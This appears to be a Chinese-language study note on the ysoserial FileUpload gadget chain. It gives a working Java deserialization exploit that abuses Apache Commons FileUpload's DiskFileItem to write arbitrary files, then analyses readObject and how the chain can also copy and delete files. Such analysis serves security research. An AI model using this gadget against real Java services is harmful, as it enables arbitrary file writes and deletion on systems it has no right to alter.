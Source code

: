 # FileUpload

FileUpload是Apache提供的上传组件，它本身依赖于commos-io组件,ysoserial中利用了这个组件来任意写、读文件或者目录，但是具体是怎么操作还是和jdk版本有关。

## exp

```java
package dem0.deserialization.FileUpload;

import org.apache.commons.fileupload.disk.DiskFileItem;
import org.apache.commons.io.output.DeferredFileOutputStream;
import ysoserial.Deserializer;
import ysoserial.Serializer;

import java.io.File;
import java.lang.reflect.Field;

public class Exp1 {
    public static void main(String[] args) throws Exception {
        // 创建文件写入目录 File 对象，以及文件写入内容
        String charset = "UTF-8";
        byte[] bytes   = "hahaha".getBytes(charset);

        // 在 1.3 版本以下，可以使用 \0 截断
        File repository = new File("./123.txt/../");

        // 在 1.3.1 及以上，只能指定目录
//		File   repository = new File("/Users/phoebe/Downloads");

        // 创建 dfos 对象
        DeferredFileOutputStream dfos = new DeferredFileOutputStream(0, repository);

        // 使用 repository 初始化反序列化的 DiskFileItem 对象
        DiskFileItem diskFileItem = new DiskFileItem(null, null, false, null, 0, repository);

        // 序列化时 writeObject 要求 dfos 不能为 null
        Field dfosFile = DiskFileItem.class.getDeclaredField("dfos");
        dfosFile.setAccessible(true);
        dfosFile.set(diskFileItem, dfos);

        // 反射将 cachedContent 写入
        Field field2 = DiskFileItem.class.getDeclaredField("cachedContent");
        field2.setAccessible(true);
        field2.set(diskFileItem, bytes);
        byte[] serialize = Serializer.serialize(diskFileItem);
        Deserializer.deserialize(serialize);
    }
}

```



## 分析

## DiskFileItem

org.apache.commons.fileupload.FileItem表示在POST请求中接收到的文件或者表单项。而`DiskFileItem`是这个的实现类，用来封装一个请求消息实体中的全部项目，在`FileUploadBase#parseRequest`解析时进行封装，动作，动作由 DiskFileItemFactory 的 `createItem` 方法来完成。

![image-20220515094557881](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220515094557881.png)

他这里自己重新实现了自己的逻辑，用于在JVM之间迁移HTTP会话，在不同机器中文件存储文件reposity不同。

```java
 private void readObject(ObjectInputStream in)
            throws IOException, ClassNotFoundException {
        // read values
        in.defaultReadObject();

        OutputStream output = getOutputStream();
        if (cachedContent != null) {
            output.write(cachedContent);
        } else {
            FileInputStream input = new FileInputStream(dfosFile);
            IOUtils.copy(input, output);
            dfosFile.delete();
            dfosFile = null;
        }
        output.close();

        cachedContent = null;
    }
```

其实也不难理解，就是这个类在反序列化的时候有对文件的操作，而我们可以控制他的属性，从而来达到文件的操作。

![image-20220515095751793](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220515095751793.png)

这里的cachedContent==NULL，可以实现文件复制和删除。